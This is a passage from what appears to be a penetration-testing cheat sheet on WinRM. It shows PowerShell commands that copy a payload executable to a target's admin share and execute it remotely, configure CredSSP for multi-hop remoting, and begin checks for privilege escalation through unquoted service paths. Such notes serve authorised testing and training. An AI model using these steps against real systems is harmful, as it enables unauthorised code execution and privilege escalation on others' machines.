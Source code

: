 Copy files and execute

> [!example]-
>
> ```sh
> Copy-Item -Path payload.exe -Destination \\target\C$\Windows\Temp\
> ```
> ```sh
> Invoke-Command -ComputerName target -ScriptBlock {
>   C:\Windows\Temp\payload.exe
> }
> ```

PSRemoting through multiple hops

> [!example]-
>
> 1. Enable CredSSP on source
>
> ```sh
> Enable-WSManCredSSP -Role Client -DelegateComputer target.com
> ```
>
>
> 2. Execute with CredSSP
>
> ```sh
> $cred = Get-Credential
> ```
>
> ```sh
> Invoke-Command -ComputerName target.com -Credential $cred -Authentication CredSSP -ScriptBlock {
>   Invoke-Command -ComputerName target2.com -ScriptBlock { hostname }
> }
> ```

___




## Privilege Escalation

Escalate privileges on compromised WinRM systems

Check privileges

```sh
whoami /priv
```

Check for unquoted service paths

> [!info]-
>
> Windows can interpret unquoted service path components loosely,
> letting local attacker place a malicious executable
> in a higher-priority folder to run with service's privileges
> (*often `SYSTEM`*)

